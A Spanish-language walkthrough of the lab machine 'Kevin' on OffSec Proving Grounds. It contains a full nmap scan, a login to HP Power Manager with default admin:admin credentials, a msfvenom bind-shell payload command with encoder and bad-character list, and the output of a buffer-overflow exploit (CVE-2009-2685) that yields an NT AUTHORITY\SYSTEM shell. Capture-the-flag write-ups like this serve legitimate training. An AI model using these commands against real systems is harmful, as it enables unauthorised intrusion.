

En este tutorial, muestro cómo obtuve acceso completo al sistema Kevin de OffSec Proving Grounds.

## Objetivos de Aprendizaje

- Scripting en Python
- Hewlett-Packard (HP) Power Manager Administration - Universal Buffer Overflow (CVE-2009-2685)

## Escaneo con Nmap

```bash
sudo nmap -sSCV -vvv -n -Pn -p- --min-rate 5000 192.168.79.45

<SNIP>

PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 GoAhead WebServer
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: GoAhead-Webs
| http-title: HP Power Manager
|_Requested resource was http://192.168.79.45/index.asp
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped   syn-ack ttl 127
| ssl-cert: Subject: commonName=kevin
| Issuer: commonName=kevin
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2026-07-13T14:46:42
| Not valid after:  2027-01-12T14:46:42
| MD5:     f249 f9ba 50db dd54 13c2 9bd4 40b4 40db
| SHA-1:   5841 c7e8 6c40 0d48 7254 45a0 e652 d64a f7b8 c460
| SHA-256: b49a 01be 7099 6eee 9fab 624a de7d 9f28 5caa 6f5d 6d8a 9200 9e6f 59dc 7dc2 8d7a
| -----BEGIN CERTIFICATE-----
| MIICzjCCAbagAwIBAgIQVjw4cpoGA5dB3FItoFc6AzANBgkqhkiG9w0BAQUFADAQ
| MQ4wDAYDVQQDEwVrZXZpbjAeFw0yNjA3MTMxNDQ2NDJaFw0yNzAxMTIxNDQ2NDJa
| MBAxDjAMBgNVBAMTBWtldmluMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
| AQEAsqjz5RQ02xxJb0LhEk5xjIC82I8HjTgq2Pd0RloShE1oBkw3K/vZG2lwsXAW
| mtut3oy29y6ONTG8Znm+2k8JBZZULncFraDEemLg38QapWXs6H2ssrV9WgJq8398
| adpDfnbw/OJItlz3xneFFZiWWx5EGVY7GzGYaOuNbICEYqRq0ZJCyEasjzzZm8ib
| DtlRKph/UkI8o9JCbtA1YkjNd6Je6GVddXbMV18L5RaIiiu6pZ4Bf39nvtNgYJ55
| nW0jEqAsYtD4az19SUvu/FQECRhFeL8YgrzG5Zy4cICD9NmVzTfEyO8ilqhZuKR/
| Ww2GJzd/2gum0OG5YThohicaTQIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcD
| ATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBADhwsshQCq+tCVwVC/j2
| J2+VS+uzj5wjh3kmZhFVpk4/eZ9pryTF8/lSc/mVL1GLCPlhUuGrCgLcZ1W9geyf
| 9f9gnk+gfkHnIEU9rPBKVfh1UuTl4yVBcrqbQUvnqfVsh0uXE/ZKJJ2Vx02zyWVF
| ydibdB8OAKhrnh5zHqSbvcvMMer43yzrkN0ncLgLEG0d5CgpcG/OD9JEKodo3iMG
| 07FARPJ/tZBzGZw8xUSw549Rvnhl0LbTcwE9eK7B5fRqLIfElatB6UOf4++vDtnf
| 67EMS0TrmqNlJJIn+QzJUs2X7zSUdWwZF60PHly85fJfyn6KLfkI3yYmSX31XBa3
| FGw=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2026-07-14T14:49:45+00:00
|_ssl-date: 2026-07-14T14:50:00+00:00; 0s from scanner time.
3573/tcp  open  tag-ups-1?   syn-ack ttl 127
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: KEVIN; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m00s, deviation: 3h07m50s, median: 0s
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-07-14T07:49:45-07:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 10530/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 18490/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 9487/udp): CLEAN (Timeout)
|   Check 4 (port 37218/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-07-14T14:49:45
|_  start_date: 2026-07-14T14:47:34
| nbstat: NetBIOS name: KEVIN, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:86:68:84 (VMware)
| Names:
|   KEVIN<00>            Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   KEVIN<20>            Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 86 68 84 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00

<SNIP>

```

## Enumeración de Servicios

### SMB

Parecía vulnerable a MS17-010 (Eternalblue). Como la explotación podría bloquear el equipo, decidí seguir indagando y dejarlo por ahora.

### HTTP

Navegando a la página web en el puerto 80, encontramos **HP Power Manager**.



Podemos iniciar sesión con credenciales bastante débiles: `admin:admin`. Esto nos permite realizar una enumeración más profunda del servicio. Ahora sabemos que estamos tratando con
**HP Power Manager 4.2 (Build 7)**, que es vulnerable a un buffer overflow.

## Explotación

Después de investigar un poco, pude encontrar [este](https://github.com/Muhammd/HP-Power-Manager) exploit.

Cambios realizados en el exploit:
- Cambié el payload de `msfvenom` (`msfvenom -p windows/shell_bind_tcp LHOST=192.168.79.45 LPORT=1234  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python`)
- Agregué tiempo extra (de 30 a 60 segundos como se recomienda en el comentario final del script)
- Algunos cambios menores en la sintaxis de Python (prints y nuestro payload generado recientemente)

```bash
python2.7 script.py 192.168.79.45
[+] Payload Fired... She will be back in less than a min...
[+] Give me 30 Sec!
(UNKNOWN) [192.168.79.45] 1234 (?) open
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>hostname 
hostname
kevin

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Post-Explotación

**Ya tenemos nt authority\system**

## Pruebas




```text
N/A
```





```text
a109357e0537e715a6a606c7bc9a76e5
```


